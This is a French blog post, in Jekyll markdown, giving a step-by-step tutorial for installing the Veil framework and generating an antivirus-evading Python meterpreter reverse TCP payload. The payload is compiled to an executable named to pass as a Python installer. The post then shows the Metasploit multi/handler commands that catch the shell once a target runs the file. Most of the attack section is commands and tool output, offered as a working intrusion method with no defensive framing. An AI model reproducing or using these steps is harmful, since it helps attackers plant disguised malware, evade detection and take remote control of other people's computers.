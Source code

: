 ```yaml
---
author: Funeoz
permalink: /linux/veil-evasion-av.html
title: Installation et utilisation de Veil(Evasion d'antivirus)
layout: post
read_time: true
---
```


Veil (et non pas Veil-evasion qui a été discontinué) permet de rendre indétectable à environ 60% du temps un payload qui sera executé sur la cible. Son installation est très simple.

## Installation

Tout d'abord, git clone le repository :

{% highlight bash %}
$ git clone https://github.com/Veil-Framework/Veil.git
#Puis changer de dossier
$ cd Veil 
#Exécuter le script d'installation
$ ./config/setup.sh --force --silent
{% endhighlight %}

Cela va donc installer toutes les dépendances nécessaires. 

Il va vous être demandé aussi de renseigner le chemin pour Metasploit 
(ex:/opt/metasploit-framework)

## Utilisation

Deux modules sont utilisables dans le framework Veil : Evasion et Ordnance.

Evasion permet donc d'éviter la détection des payloads et Ordnance de générer des shellcode rapidement pour les utiliser avec des exploits ou des payloads. Mais cet article ne porte que sur Evasion.

Si on va dans la partie Evasion en tapant <<use 1>> puis <<list>>, on peut voir que ces payloads peuvent être dans différents languages.
Il faut savoir qu'il existe deux "types" de language : 
- les languages à haut niveau
- les languages à bas niveau

Par exemple, le Python est un language à haut niveau. Ce qui veut dire qu'il est proche des languages réels, donc plus simple à écrire. Donc les payloads auront plus de chance à être détectés.

Alors que le go est un language à bas niveau qui se rapproche du language machine.
Donc plus compliqué à être détecté.

On va donc pour l'exemple prendre le payload 28. Pour cela <<use 28>>

On tombe donc sur pleins d'options :

{% highlight bash %}
Veil/Evasion>: use 28
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 Payload Information:

        Name:           Pure Python Reverse TCP Stager
        Language:       python
        Rating:         Excellent
        Description:    pure windows/meterpreter/reverse_tcp stager, no
                        shellcode

Payload: python/meterpreter/rev_tcp selected

 Required Options:

Name                    Value           Description
----                    -----           -----------
CLICKTRACK              X               Optional: Minimum number of clicks to execute payload
COMPILE_TO_EXE          Y               Compile to an executable
CURSORMOVEMENT          FALSE           Check if cursor is in same position after 30 seconds
DETECTDEBUG             FALSE           Check if debugger is present
DOMAIN                  X               Optional: Required internal domain
EXPIRE_PAYLOAD          X               Optional: Payloads expire after "Y" days
HOSTNAME                X               Optional: Required system hostname
INJECT_METHOD           Virtual         Virtual, Void, or Heap
LHOST                                   The listen target address
LPORT                   4444            The listen port
MINRAM                  FALSE           Check for at least 3 gigs of RAM
PROCESSORS              X               Optional: Minimum number of processors
SANDBOXPROCESS          FALSE           Check for common sandbox processes
SLEEP                   X               Optional: Sleep "Y" seconds, check if accelerated
USERNAME                X               Optional: The required user account
USERPROMPT              FALSE           Make user click prompt prior to execution
USE_PYHERION            N               Use the pyherion encrypter
UTCCHECK                FALSE           Optional: Validates system does not use UTC timezone
VIRTUALDLLS             FALSE           Check for dlls loaded in memory
VIRTUALFILES            FALSE           Optional: Check if VM supporting files exist

 Available Commands:

        back            Go back to Veil-Evasion
        exit            Completely exit Veil
        generate        Generate the payload
        options         Show the shellcode's options
        set             Set shellcode option

[python/meterpreter/rev_tcp>>]:
{% endhighlight %}

Ce qui va nous être utilise est de juste renseigner l'adresse de notre ordinateur pour le LHOST grâce à ifconfig, puis génerer le payload : 

{% highlight bash %}
[python/meterpreter/rev_tcp>>]: set LHOST (votreip)
#generation du payload
[python/meterpreter/rev_tcp>>]: generate
{% endhighlight %}

Le module va ensuite demander le nom de fichier que vous voulez donner (ex: python3.7_installer) :

{% highlight bash %}
[>] Please enter the base name for output files (default is payload): python3.7_installer
#Attention:remplacez les espaces par des tirets bas.
{% endhighlight %}

Puis celui-ci va vous demander quel module vous voulez utiliser pour générer l'exécutable (pour moi, ce sera PyInstaller) :

{% highlight bash %}
[?] How would you like to create your payload executable?

     1 - PyInstaller (default)
     2 - Py2Exe

 [>] Please enter the number of your choice: 1
{% endhighlight %}

Le fichier va donc être généré et est disponible à :

{% highlight bash %}
$ cd /var/lib/veil/output/compiled
$ ls
$ python3.7_installer.exe
{% endhighlight %}

Il faudra ensuite lancer msfconsole, sélectionner l'exploit exploit/multi/handler et le payload python/meterpreter/reverse_tcp

{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST (votreip)
LHOST => (votreip)
msf5 exploit(multi/handler) > run
{% endhighlight %}

La session va donc être lancé puis il faudra que la personne exécute le fichier et voilà, vous aurez accès à votre cible.













